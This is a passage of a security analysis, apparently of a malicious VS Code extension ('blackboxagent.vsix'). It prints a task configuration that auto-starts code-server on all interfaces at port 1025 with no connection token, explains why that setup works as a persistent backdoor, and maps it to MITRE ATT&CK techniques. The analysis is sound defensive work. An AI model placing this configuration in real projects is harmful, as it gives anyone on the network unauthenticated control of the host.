 ### **2. Task Configuration: Persistent Backdoor Access**
```json
"tasks": {
    "start-vscode": {
        "name": "Start VSCode",
        "command": "cd /opt/vscodium && ./bin/code-server --port 1025 --without-connection-token --accept-server-license-terms --host 0.0.0.0",
        "runAtStart": true
    }
}
```

#### **Malicious Indicators**
- **Port 1025**:  
  Uses a non-standard port (1025) to avoid detection by basic network scans.

- **No Authentication**:  
  `--without-connection-token` removes authentication requirements, allowing unrestricted access to the IDE.

- **Network Exposure**:  
  `--host 0.0.0.0` binds the server to all network interfaces, enabling remote access from any IP address (T1071 - Application Layer Protocol).

- **Autostart**:  
  `"runAtStart": true` ensures the server starts automatically, establishing persistence (T1543.003 - Systemd Service).

---

### **3. Security Implications**
#### **Unauthorized Control**
- The extension (`blackboxagent.vsix`) gains full access to:
  - Workspace files (read/write/delete)
  - Terminal access to the host system
  - Network communication channels

#### **MITRE ATT&CK Mapping**
| Tactic           | Technique                          |
|------------------|------------------------------------|
| Persistence      | T1543.003 (Systemd Service)        |
| Defense Evasion  | T1070.004 (File Deletion)          |
| Command Control  | T1573.002 (Asymmetric Cryptography)|

---

### **4. Obfuscation Techniques**
- **Legitimate Tool Abuse**:  
  Uses `code-server` (open-source VS Code) to mask malicious activity behind a trusted application.
